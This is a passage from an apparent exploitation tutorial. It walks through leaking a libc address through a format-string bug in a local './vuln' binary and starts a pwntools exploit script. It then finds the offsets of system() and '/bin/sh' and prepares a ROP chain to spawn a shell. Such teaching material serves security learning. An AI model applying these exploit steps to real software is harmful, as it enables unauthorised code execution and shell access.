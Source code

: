 ```sh
gef➤  c
Continuing.
%p.%p.%p.%p.%p.%p.
0x5555555592a1.(nil).0x5555555592b3.0x7fffffffdf50.0x7ffff7fadbe0.0x7fffffffe0b8.
```

If we subtract the base of libc from the fifth pointer, we get `0x7ffff7fadbe0 - 0x7ffff7def000 = 0x1bebe0`. In other words, if we subtract an offset of `0x1bebe0` from the value of the fifth pointer, then we can obtain the address of the base of libc. We can use this information to start creating an exploit script with pwntools.

```python
#!/usr/bin/env python3
from pwn import *

# Open up the process
p = process("./vuln", stdin=PTY)

# Leak a libc address
p.sendline("%5$p")
libc_base = int(p.recvline(), 16) - 0x1bebe0
```

## Finding Other Addresses

Our next step is to obtain the address of `system()`, which is located in the libc library. In most Linux systems, libc is stored in a file called `/usr/lib/x86_64-linux-gnu/libc-2.31.so`, so we can use the following command to obtain the offset of `system()` from the base of libc.

```sh
$ readelf -s /usr/lib/x86_64-linux-gnu/libc-2.31.so | grep system
  1430: 0000000000048df0    45 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.2.5
```

The offset is `0x48df0`, meaning that if we add `0x48df0` to the `libc_base` variable we created in the Python script earlier, we should get the address of `system()`.

Since our goal is to call `system("/bin/sh")`, we'll also need to have a pointer to the string `/bin/sh`. Because libc uses this string in its code, this string is also located within the libc library, and we can use GDB to look for it.

```sh
gef➤  find 0x00007ffff7def000,0x00007ffff7fb0000,"/bin/sh"
0x7ffff7f79156
1 pattern found.
gef➤  x/s 0x7ffff7f79156
0x7ffff7f79156: "/bin/sh"
```

Note that the parameters for the above `find` command are the beginning and end of the libc memory mapping for that instance. The command gave us an address of `0x7ffff7f79156`, which has an offset of `0x7ffff7f79156 - 0x7ffff7def000 = 0x18a156`.

We'll also need to have access to a `POP RDI` ROP gadget, which will allow us to store a pointer to the `/bin/sh` string into `RDI`. We can use the command shown below to obtain a `POP RDI` gadget (entire output not shown to save space).
